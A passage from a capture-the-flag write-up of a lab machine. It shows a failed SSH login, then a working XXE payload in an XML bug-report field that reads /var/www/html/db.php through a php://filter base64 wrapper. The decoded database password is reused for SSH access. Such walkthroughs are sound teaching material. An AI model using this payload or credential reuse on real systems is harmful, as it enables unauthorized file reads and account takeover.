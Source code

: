 We noticed that there is a `development` user that might not require a password to SSH into. Hence, we will try out luck, but apparently I have either no or extremely low luck and so, I am unable to SSH into the server as it requires a password to SSH into.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh development@10.10.11.100                                         3 ⚙
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
development@10.10.11.100: Permission denied (publickey,password).
```

Now, we remember from our `gobuster` that we have discovered a `db.php` file and this file is most likely stored in `/var/www/html` directory on the webserver. So, we modify our payloads to try to exfiltrate this file. After numerous tries on different payloads, we were able to obtain an encoded text in the response!

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

Decoding the encoded text that we have obtained in the response gives us the contents of the file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo= | base64 --decode
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

#### Obtaining the user flag

With the `developement` user that we have obtained earlier and the password that we have obtained from the `db.php` file, we are now able to login to the SSH server, and obtain the user flag
